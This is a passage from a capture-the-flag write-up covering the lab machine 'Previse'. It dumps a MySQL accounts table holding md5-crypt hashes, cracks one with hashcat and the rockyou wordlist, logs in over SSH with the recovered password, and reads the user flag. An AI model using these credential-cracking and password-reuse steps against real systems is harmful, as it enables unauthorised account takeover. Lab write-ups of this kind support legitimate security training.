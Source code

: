 

There is one user that isn't me:



    mysql> select * from accounts;
    +----+----------+------------------------------------+---------------------+
    | id | username | password                           | created_at          |
    +----+----------+------------------------------------+---------------------+
    |  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
    |  2 | 0xdff    | $1$🧂llol$H.PGkFFp/y7qUAVKR4VKK1 | 2021-07-16 20:04:52 |
    +----+----------+------------------------------------+---------------------+
    2 rows in set (0.00 sec)



The hash seems to be using an emoji character as part of the salt. This
is a little silly, but nothing I can't try to break.

### Crack Hash

I'll put the hash into a file and feed it to Hashcat. Based on the
[example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
page, it looks like md5-crypt, or mode 500:



    oxdf@parrot$ hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt
    ...[snip]...
    $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
    ...[snip]...



### SSH

That password works over SSH as m4lwhere:



    oxdf@parrot$ sshpass -p 'ilovecody112235!' ssh m4lwhere@10.10.11.104
    ...[snip]...
    m4lwhere@previse:~$



And I can grab `user.txt`:



    m4lwhere@previse:~$ cat user.txt
    1e9de647************************



## Shell as root

### Enumeration
